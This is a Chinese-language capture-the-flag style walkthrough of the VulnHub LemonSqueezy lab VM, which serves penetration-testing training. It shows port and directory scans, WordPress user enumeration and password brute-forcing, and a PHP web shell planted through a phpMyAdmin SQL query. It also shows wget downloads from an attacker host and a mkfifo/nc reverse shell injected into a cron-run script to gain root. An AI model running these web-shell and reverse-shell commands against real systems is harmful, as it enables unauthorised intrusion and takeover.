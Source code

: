# LemonSqueezy

> https://download.vulnhub.com/lemonsqueezy/LemonSqueezy.7z

靶场IP：`192.168.32.218`

扫描对外端口服务

```
┌──(root💀kali)-[~]
└─# nmap -p 1-65535 -sV  192.168.32.218                                                                                                                                                                                               
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-09 11:31 EDT
Nmap scan report for 192.168.32.218
Host is up (0.00078s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
MAC Address: 00:0C:29:F6:8C:26 (VMware)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.60 seconds

```

访问80端口

![image-20220909233308825](../../.gitbook/assets/image-20220909233308825.png)

爆破web目录

```
┌──(root💀kali)-[~]
└─# dirb http://192.168.32.218                                                                                                                                                                                                        

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Fri Sep  9 11:45:04 2022
URL_BASE: http://192.168.32.218/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://192.168.32.218/ ----
+ http://192.168.32.218/index.html (CODE:200|SIZE:10701)                                                                                                                                                                                   
==> DIRECTORY: http://192.168.32.218/javascript/                                                                                                                                                                                           
==> DIRECTORY: http://192.168.32.218/manual/                                                                                                                                                                                               
==> DIRECTORY: http://192.168.32.218/phpmyadmin/                                                                                                                                                                                           
+ http://192.168.32.218/server-status (CODE:403|SIZE:279)                                                                                                                                                                                  
==> DIRECTORY: http://192.168.32.218/wordpress/                                                                                                                                                                                            
                                                                                                                                                                                                                                           
---- Entering directory: http://192.168.32.218/javascript/ ----
==> DIRECTORY: http://192.168.32.218/javascript/jquery/                                                                                                                                                                                    
                                                                                                                                                                                                                                           
---- Entering directory: http://192.168.32.218/manual/ ----

```

访问：`/wordpress/`

![image-20220910103506222](../../.gitbook/assets/image-20220910103506222.png)

配置hosts

```
192.168.32.218 lemonsqueezy
```

![image-20220910103720426](../../.gitbook/assets/image-20220910103720426.png)

wpscan枚举用户

```
wpscan --url http://lemonsqueezy/wordpress --enumerate u
```

```
[i] User(s) Identified:

[+] lemon
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Rss Generator (Passive Detection)
 |  Wp Json Api (Aggressive Detection)
 |   - http://lemonsqueezy/wordpress/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] orange
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

```

wpscan爆破密码

```
wpscan --url http://lemonsqueezy/wordpress --passwords /usr/share/wordlists/rockyou.txt --usernames lemon,orange
```

```
[+] Performing password attack on Xmlrpc against 2 user/s
[SUCCESS] - orange / ginger 
```

登录 wordpress 后，我们会看到一个草稿帖子，发现有密码：`n0t1n@w0rdl1st!`

![image-20220910104223248](../../.gitbook/assets/image-20220910104223248.png)

然后我记得在目录扫描期间我们有"`phpmyadmin`"页面，我尝试使用`orange`用户的这个凭据登录到 `phpmyadmin`。

![image-20220910104408097](../../.gitbook/assets/image-20220910104408097.png)

我们可以看到`orange`密码的哈希值，我试图破解它但没有成功。因此，我使用与用户`orange`相同的哈希对其进行了更改。

![image-20220910104525995](../../.gitbook/assets/image-20220910104525995.png)

以`leon`用户的身份登录。

![image-20220910104642540](../../.gitbook/assets/image-20220910104642540.png)

然后我尝试上传易受攻击的插件和外壳但无法成功，似乎我们无法在服务器上写入任何内容，因为它显示临时文件夹丢失。

在 wordpress 之后，我尝试通过运行 SQL 查询来上传 shell。

```
select "<?php echo shell_exec($_GET['cmd']);?>" into outfile '/var/www/html/wordpress/wp-content/uploads/shell.php'
```

```
┌──(root💀kali)-[/tmp]
└─# curl http://192.168.32.218/wordpress/wp-content/uploads/shell.php?cmd=id   
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

下载反弹shell

```
http://192.168.32.218/wordpress/wp-content/uploads/shell.php?cmd=wget%20http://192.168.32.130/shell.php%20-O%201.php
```

下载LinEnum.sh

```
www-data@lemonsqueezy:/var/www/html/wordpress/wp-content/uploads$ wget http://192.168.32.130/LinEnum.sh
<tent/uploads$ wget http://192.168.32.130/LinEnum.sh              
--2022-09-10 12:32:33--  http://192.168.32.130/LinEnum.sh
Connecting to 192.168.32.130:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 46631 (46K) [text/x-sh]
Saving to: 'LinEnum.sh'

LinEnum.sh          100%[===================>]  45.54K  --.-KB/s    in 0s      

2022-09-10 12:32:33 (252 MB/s) - 'LinEnum.sh' saved [46631/46631]

www-data@lemonsqueezy:/var/www/html/wordpress/wp-content/uploads$ chmod +x LinEnum.sh

```

发现一个计划任务

![image-20220910110343135](../../.gitbook/assets/image-20220910110343135.png)

查看：`logrotate`

```
www-data@lemonsqueezy:/tmp$ cat /etc/logrotate.d/logrotate
cat /etc/logrotate.d/logrotate
#!/usr/bin/env python
import os
import sys
try:
   os.system('rm -r /tmp/* ')
except:
    sys.exit()

```

输入反弹shell

```
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.32.130 9999 >/tmp/f" > /etc/logrotate.d/logrotate
```

两分钟后，就可以看到建立连接。

![image-20220910110729187](../../.gitbook/assets/image-20220910110729187.png)

